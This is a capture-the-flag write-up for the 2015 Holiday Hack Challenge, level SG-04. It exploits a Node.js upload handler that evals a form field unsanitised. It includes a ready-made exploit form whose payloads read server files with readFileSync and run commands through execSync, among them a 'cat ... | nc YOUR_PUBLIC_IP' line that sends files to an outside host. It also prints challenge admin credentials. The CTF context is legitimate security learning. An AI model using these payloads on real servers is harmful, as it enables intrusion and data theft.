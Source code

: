 ## Holiday Hack Challenge 2015
# Level 4-4 : Gnomage Pwnage (SG-04)

The goal for Level 4 is to get access to all 5 of the SuperGnome servers and download the **/gnome/www/files/gnome.conf** file from each of them

Login into SG-04 (52.192.152.132) using the admin credentials (admin:SittingOnAShelf)

This time around, the website is a little different
- File download has been disabled
- 'Files' page now has an upload form

![01](img/01.png)

Read the source code from **/www/routes/index.js** that handles the FilesUpload

```js
// FILES UPLOAD
router.post('/files', upload.single('file'), function(req, res, next) {
  if (sessions[sessionid].logged_in === true && sessions[sessionid].user_level > 99) { // NEDFORD: this should be 99 not 100 so admins can upload
    var msgs = [];
    file = req.file.buffer;
    if (req.file.mimetype === 'image/png') {
      msgs.push('Upload successful.');
      var postproc_syntax = req.body.postproc;
      console.log("File upload syntax:" + postproc_syntax);
      if (postproc_syntax != 'none' && postproc_syntax !== undefined) {
        msgs.push('Executing post process...');
        var result;
        d.run(function() {
          result = eval('(' + postproc_syntax + ')');
        });
        // STUART: (WIP) working to improve image uploads to do some post processing.
        msgs.push('Post process result: ' + result);
      }
      msgs.push('File pending super-admin approval.');
      res.msgs = msgs;
    } else {
      msgs.push('File not one of the approved formats: .png');
      res.msgs = msgs;
    }
  } else
    res.render('index', { title: 'GIYH::ADMIN PORT V.01', session: sessions[sessionid], res: res });
  next();
});
```

Follow the usage of the "postproc" parameter

```js
var postproc_syntax = req.body.postproc;
...
if (postproc_syntax != 'none' && postproc_syntax !== undefined) {
...
result = eval('(' + postproc_syntax + ')');
```

The parameter is used directly in a "eval" function without sanitisation. This means that any Javascript code that is provided through this input will be executed. In the case of a NodeJS environment, this is a Server Side Javascipt (SSJS) Injection vulnerability

Looking at the HTML code of the Files Upload form itself shows that it is doing exactly that

```html
<div class="form-group form-group-1g">
  <h4 class="col-sm-5">Post-process:</h4>
  <div class="col-sm-7">
    <select required="" name="postproc" class="form-control">
      <option value="none">none</option>
      <option value="postproc(&quot;timestamp&quot;, file)">timestamp</option>
      <option value="postproc(&quot;darken50&quot;, file)">darken 50%</option>
      <option value="postproc(&quot;darken20&quot;, file)">darken 20%</option>
      <option value="postproc(&quot;brighten50&quot;, file)">brighten 50%</option>
      <option value="postproc(&quot;brighten20&quot;, file)">brighten 20%</option>
    </select>
  </div>
</div>
<div class="form-group">
  <h4 class="col-sm-5">Choose a file:</h4>
  <div class="col-sm-7">
    <input required="" name="file" class="form-control" type="file">
  </div>
</div>
<div class="form-group">
  <div class="col-sm-offset-6 col-sm-6">
    <button type="submit" class="login btn btn-primary">Upload</button>
  </div>
</div>
```

A Javascript function call is passed directly through the parameter

This is exceptionally dangerous in a NodeJS environment because NodeJS provides a lot of powerful functions. The following function allows the reading of any arbitrary file on the server.

> require('fs').readFileSync('/gnome/www/files/gnome.conf')

To make it easier to exploit without having to setup a proxy, I created a [HTML document](pwn4.html) with the following form that is aimed at SG-04's file upload

```html
<h2>Upload New File</h2>
<form action="http://52.192.152.132/files" method="post" role="form" enctype="multipart/form-data">
  <h4>Post-process:</h4>
  <select required name="postproc">
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/gnome.conf'))">gnome.conf</option>
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/sgnet.zip'))">sgnet.zip</option>
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/20151203133815.zip'))">20151203133815.zip</option>
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/factory_cam_4.zip'))">factory_cam_4.zip</option>
    <option value="res.send(require('child_process').execSync('cat /gnome/www/files/factory_cam_4.zip | nc YOUR_PUBLIC_IP YOUR_PUBLIC_PORT'))">factory_cam_4</option>
  </select>
  <h4>Choose a file:</h4>
  <input required name="file" type="file">
  <button type="submit">Upload</button>
</form>
```

Do note that you will need to login into SG-04 first before using the above form to exploit it. 

Also, "res.end()" basically ends the HTTP response and tell the server to respond with whatever it's provided with. In this case, its the file's contents

![02](img/02.png)

Similar to SG-02, the file uploaded is not processed in any ways. It must be a PNG file though which the code does check for. Thus, any PNG file will do.

![03](img/03.png)

[SG04_gnome.conf](SG04_gnome.conf)

```
Gnome Serial Number: BU22_1729_2716057 
Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
Allow new subordinates?: YES
Camera monitoring?: YES
Audio monitoring?: YES
Camera update rate: 60min
Gnome mode: SuperGnome
Gnome name: SG-04
Allow file uploads?: YES
Allowed file formats: .png
Allowed file size: 512kb
Files directory: /gnome/www/files/
```

PS: Use the same method to download the factory_cam_4.zip and 20151203133815.zip for Level 5 too (They are already included in the exploit form above)

PPS: Notice there is an additional option to download factory_cam_4.zip which is different??

**Getting factory_cam_4.zip**

When I used the readFileSync method to try and get the "factory_cam_4.zip" file, the download kept getting truncated (cut off at ~65KB mark of a 1.1MB file). Some of my friends downloaded it succesfuuly through this method but I couldn't get it to work

I tried another way which also highlights another powerful/dangerous function of NodeJS

> require('child_process').execSync('cmds here')

This function allows you to execute any command line commands through Javascript. In this case, I used cat and nc to transfer the file back to me.

> require('child_process').execSync('cat /gnome/www/files/factory_cam_4.zip | nc YOUR_PUBLIC_IP YOUR_PUBLIC_PORT')

This method do require you to have access to a public facing IP or Domain where you can setup a nc listener

For me, my router has a free DDNS service which I could use to get a public facing Domain. If anybody needs help on how to set this up, just pop me a message.